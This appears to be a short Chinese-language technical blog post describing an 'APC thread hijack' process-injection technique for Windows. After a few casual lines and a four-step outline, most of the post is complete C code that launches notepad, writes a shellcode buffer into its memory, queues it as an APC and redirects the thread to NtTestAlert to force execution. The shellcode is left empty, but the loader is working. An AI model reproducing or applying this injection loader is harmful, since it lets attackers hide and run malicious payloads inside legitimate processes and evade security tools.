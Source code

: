 # APC Thread Hijack

## 简介

我也不知道为什么要写这个....这玩意有点像脱裤子放屁....

昨天和某个dalao谈论了一下apc注入，我们经过友好的技术♂交流\(迫真\)，意识到了三环插入的apc无法确定时间执行，于是有了这个东西。

## 流程

1. 插入apc
2. 挂起线程
3. 修改rip指向NtTestAlert函数
4. 恢复线程

## 代码

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] =
"";

typedef VOID(NTAPI* pNtTestAlert)(VOID);

int main() {
	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };
	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");
	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
	Sleep(1000);//Wait for thread initialization to complete -> nttestalert is executed
	SuspendThread(pi.hThread);
	LPVOID lpBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pi.hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL);
	CONTEXT ctx = { 0 };
	QueueUserAPC((PAPCFUNC)lpBuffer, pi.hThread, NULL);
	ctx.ContextFlags = CONTEXT_ALL;
	GetThreadContext(pi.hThread, &ctx);
	ctx.Rip = (DWORD64)NtTestAlert;
	SetThreadContext(pi.hThread, &ctx);
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//NtTestAlert();
	return 0;
}
```


